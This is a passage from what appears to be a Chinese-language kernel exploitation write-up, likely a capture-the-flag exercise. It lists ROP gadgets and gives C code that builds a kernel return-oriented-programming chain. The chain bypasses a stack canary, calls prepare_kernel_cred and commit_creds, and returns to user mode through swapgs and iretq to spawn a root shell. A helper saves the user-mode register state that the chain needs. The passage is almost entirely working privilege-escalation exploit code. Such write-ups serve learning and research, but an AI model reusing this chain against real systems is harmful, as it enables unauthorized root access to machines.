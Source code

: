 我们选择：

> 0xffffffff81735dc1 : pop r15 ; mov rdi, rax ; jmp rdx
> 
> 0xffffffff810a0f49 : pop rdx ; ret

rop如下：

```c
void build_rop(unsigned long long canary)
{
    unsigned long long commit_cred_offset = 0x9c8e0; // 0xffffffffa409c8e0-0xffffffffa4000000=0x9c8e0 get from kallsyms
    unsigned long long kernel_base_addr = commit_cred_addr - commit_cred_offset;

#define vmlinux_offset(x) (x - 0xffffffff81000000)

    memset(name_payload,0x90,sizeof(name_payload));
    name_payload[8] = canary;
    name_payload[10] = kernel_base_addr + vmlinux_offset(0xffffffff81000b2f); // 0xffffffff81000b2f : pop rdi ; ret
    name_payload[11] = 0;//rdi=0 after pop rid
    name_payload[12] = prepare_kernel_cred_addr;//ret will triger to excute this function
    name_payload[13] = kernel_base_addr + vmlinux_offset(0xffffffff810a0f49);//ret-addr of prepare_kernel_cred_addr,0xffffffff810a0f49 : pop rdx ; ret;
    name_payload[14] = commit_cred_addr;//we put commit_cred_addr into rdx, after move rdi,rax, then call rdx or jmp rdx
    name_payload[15] = kernel_base_addr + vmlinux_offset(0xffffffff81735dc1);//0xffffffff81735dc1 : pop r15 ; mov rdi, rax ; jmp rdx
    name_payload[16] = 0x90;//this is for pop r15, we don't care
    name_payload[17] = kernel_base_addr + vmlinux_offset(0xffffffff81a012da);//return from commit_cred_addr, we are in root state: 0xffffffff81a012da : swapgs ; popfq ; ret
    name_payload[18] = 0x90;//this is for popfq, we don't care
    name_payload[19] = kernel_base_addr + vmlinux_offset(0xffffffff81050ac2);//0xffffffff81050ac2: iretq; ret;
    name_payload[20] = &get_shell;//return_addr rip for iretq
    name_payload[21] = user_cs; //code seg for iretq
    name_payload[22] = user_flag;//flag register for iretq
    name_payload[23] = user_rsp;//rsp  for iretq
    name_payload[24] = user_ss;//stack seg for iretq
}
```

获得cs、ss，flag和rsp的脚本如下：

```c
void save_status()
{
    // pushf-->push flag into stack
    // then use pop user_flag to get current flag
    asm("mov %%cs,%0":"=r"(user_cs));
    asm("mov %%ss,%0":"=r"(user_ss));
    asm("mov %%rsp,%0":"=r"(user_rsp));
    asm("pushf\n"
        "pop %0"
        :"=r"(user_flag)    
    );

    printf("user_cs:0x%016llx\n", user_cs);
    printf("user_ss:0x%016llx\n", user_ss);
    printf("user_rsp:0x%016llx\n", user_rsp);
    printf("user_flag:0x%016llx\n", user_flag);
}
```

